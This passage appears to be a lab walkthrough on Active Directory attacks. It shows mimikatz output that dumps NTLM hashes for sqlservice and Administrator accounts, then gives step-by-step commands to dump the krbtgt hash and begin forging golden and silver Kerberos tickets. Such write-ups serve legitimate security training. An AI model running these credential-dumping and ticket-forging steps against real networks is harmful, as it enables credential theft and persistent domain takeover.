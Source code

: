 SQLservice:

```text
mimikatz # lsadump::lsa /inject /name:sqlservice 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 00000455 (1109)
User : sqlservice

* Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
...
```
Administrator:

```text
mimikatz # lsadump::lsa /inject /name:Administrator 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 2777b7fec870e04dda00cd7260f7bee6
    LM   :
  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6 
...
```

### Dump the krbtgt hash

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Navigate to the directory mimikatz is in and run mimikatz:

    cd downloads && mimikatz.exe

Ensure this outputs [privilege '20' ok]:

    privilege::debug

Dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket, 
change the `/name:` to dump the hash of either a domain admin account or a service account such as the SQLService 
account.

    lsadump::lsa /inject /name:krbtgt

### Create a golden/silver ticket

Create a golden ticket to create a silver ticket (put a service NTLM hash into <krbtgt>, the sid of the service 
account into <sid>, and set the <id> to 1103:
